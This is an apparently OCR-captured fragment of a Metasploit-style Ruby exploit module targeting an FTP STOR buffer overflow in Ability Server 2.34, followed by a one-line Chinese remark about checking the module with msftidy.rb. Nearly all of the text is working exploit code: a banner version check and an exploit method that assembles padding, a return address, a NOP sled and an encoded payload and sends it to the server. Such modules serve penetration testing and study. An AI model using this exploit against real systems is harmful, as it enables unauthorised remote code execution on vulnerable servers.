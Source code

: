 ```
        ],
      'DefaultTarget'   => 0,
      'DisclosureDate' => 'Oct 22 2004'
    ))

    register_options(
      [
        Opt::RPORT(21),
        OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
        OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
      ], self.class)
  end

  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    c = connect_login
    return if not c

    myhost = datastore['LHOST'] == '0.0.0.0' ? Rex::Socket.source_address : datastore['LHOST']

    # Take client IP address + FTP user lengths into account for EIP offset
    padd_size = target['Offset'] + (13 - myhost.length) + (3 - datastore['FTPUSER'].length)
    junk = rand_text_alpha(padd_size)

    sploit = junk
    sploit << [target.ret].pack('V')
    sploit << make_nops(32)
    sploit << payload.encoded
    sploit << rand_text_alpha(sploit.length)

    send_cmd(['STOR', sploit], false)
    handler
    disconnect
  end
end 
```

+   检查模块是否已正确编写（msftidy.rb）
